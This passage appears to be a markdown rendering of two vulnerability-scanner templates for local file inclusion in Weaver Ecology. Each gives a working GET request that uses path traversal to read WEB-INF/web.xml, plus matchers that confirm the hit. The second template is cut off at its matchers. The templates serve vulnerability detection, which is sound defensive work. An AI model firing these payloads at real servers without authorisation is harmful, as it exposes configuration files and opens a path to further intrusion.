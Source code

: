 
# Ecology - Local File Inclusion

## Description

- Ecology is vulnerable to local file inclusion.
- severity - high
- tags - ecology,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<url-pattern>/weaver/
- part - body

---

# Ecology Springframework - Local File Inclusion

## Description

- Ecology Springframework is vulnerable to local file inclusion.
- severity - high
- tags - ecology,springframework,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/web.xml

### Matchers
